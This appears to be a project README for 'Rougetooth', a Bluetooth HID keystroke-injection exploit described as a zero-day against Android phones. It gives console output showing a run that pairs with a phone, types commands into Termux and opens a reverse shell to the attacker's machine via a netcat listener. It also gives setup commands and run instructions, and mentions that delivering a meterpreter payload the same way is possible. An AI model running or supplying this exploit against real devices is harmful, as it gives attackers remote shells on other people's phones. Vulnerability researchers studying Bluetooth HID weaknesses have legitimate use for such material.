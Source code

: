 **Rougetooth Bluetooth HID injection attack**

*This is 0day as of Apr 21, 2023*

```
[*] Reverse shell built for 10.0.2.2 on 6543
[*] Pairing to 08:AE:D6:6F:DD:F8
[!] Paired 08:AE:D6:6F:DD:F8 to DC:53:60:6C:FC:B3
[*] Prepped to send HID shellcode, using finder to find termux, then termux to pop a reverse shell from 08:AE:D6:6F:DD:F8...
[!] Go to another terminal and start a netcat listener on port 6543 to handle the shell!
[*] Registered HID profile
[!] Ready, waiting for connection from phone
[*] Control channel connected to 08:AE:D6:6F:DD:F8
[*] Interrupt channel connected to 08:AE:D6:6F:DD:F8
[*] Trying to attain control over device...
[*] Sending back to home screen
[*] Trying to pull up finder...
[*] Trying to find termux...
[*] Pushing shellcode now...
[!] Check your netcat listener for a shell!
[!] Exploit finished.
```



*setup*

Need to run `sudo systemctl stop bluetooth`, then run: `bluetoothd -P input`.


Now pair the device, and: `sudo ./run.sh [phone bt mac] [local ip addr]`.  Now on the phone, tap on the computer's controller alias in the bluetooth screen, and the exploit should proceed.

It should try to push the file, then accept the file itself by bringing up a HID controller on the computer side, and emulating the keypresses needed
from a hardware keyboard to accept the transfer.  This is a benign proof of concept, but uploading a meterpreter shell and running it this way is possible.


**Tested on: **

*linux kernel 6.1.12, bluetoothd 5.66, python libraries: python-xlib 0.27, dbus-python 1.2.16*

*Samsung Galaxy S8 running android 9, termux installed.*

Have fun, and be safe!

 
